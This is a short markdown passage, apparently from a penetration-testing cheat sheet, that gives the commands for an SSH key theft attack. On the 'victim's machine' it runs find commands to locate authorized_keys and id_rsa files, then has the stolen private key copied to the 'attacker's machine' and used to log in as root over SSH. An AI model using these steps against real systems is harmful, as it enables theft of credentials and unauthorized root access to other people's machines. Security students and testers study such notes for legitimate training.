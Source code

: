 #### Find Authorized Keys
**Victim's Machine**
```
find / -name authorized_keys 2>/dev/null
```

#### Find `id_rsa`
**Victim's Machine**
```
find / -name id_rsa 2>/dev/null
```

Copy the contents of the discovered `id_rsa` file to local machine:

#### SSH to Victim
**Attacker's Machine**
```
chmod 400 id_rsa
ssh -i id_rsa root@IP
```
